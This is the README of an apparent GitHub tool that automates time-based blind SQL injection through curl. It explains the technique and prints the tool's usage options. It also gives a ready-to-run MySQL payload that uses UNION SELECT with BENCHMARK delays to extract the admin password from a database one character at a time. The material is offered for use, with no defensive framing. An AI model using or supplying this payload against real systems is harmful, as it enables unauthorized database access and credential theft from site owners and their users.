 # curl-blind-sql-injection
Automate a timebase blind sql injection with curl

##Timebase blind sql injection

This type of SQL injection relies on the database pausing for a specified amount of time, then returning the results, indicating successful SQL query executing. Using this method, an attacker enumerates each letter of the desired piece of data using the following logic:

If the first letter of the first database's name is an 'A', wait for 10 seconds.

If the first letter of the first database's name is an 'B', wait for 10 seconds. etc.

##Usage

```
usage: curl-blind-sql-injection.py [-h] [-P P] [-I I] [-l LATENCY]
                                   [-s START_CHAR] [-e END_CHAR]
                                   CURL_REQUEST

Curl based blind-sql-injection execute the given curl request and replace some
of it's part to induce the content of a chosen field

positional arguments:
  CURL_REQUEST          the raw curl request.

optional arguments:
  -h, --help            show this help message and exit
  -P P, --template-character-position P
                        the tag to be replaced for the character position.
                        DEFAULT {p}
  -I I, --template-character-integer I
                        the field tag to be replaced for the integer
                        comparison. DEFAULT {i}
  -l LATENCY, --latency LATENCY
                        lower this value when request is fast
  -s START_CHAR, --start-char START_CHAR
                        at what char we start (inclusive)
  -e END_CHAR, --end-char END_CHAR
                        at what char we end (inclusive)
```

##Example

###MySql timebase blind sql injection

This sample will exploit an sql injection found in a field named username.

```
./curl-blind-sql-injection.py --latency 0.6 "curl domain --data \"username=a' UNION ALL SELECT
IF(ASCII(SUBSTRING((SELECT password FROM admin WHERE username
='admin'),{p},1)){i},1,BENCHMARK(1500000,MD5(1)));#\" --more-curl-options"
```
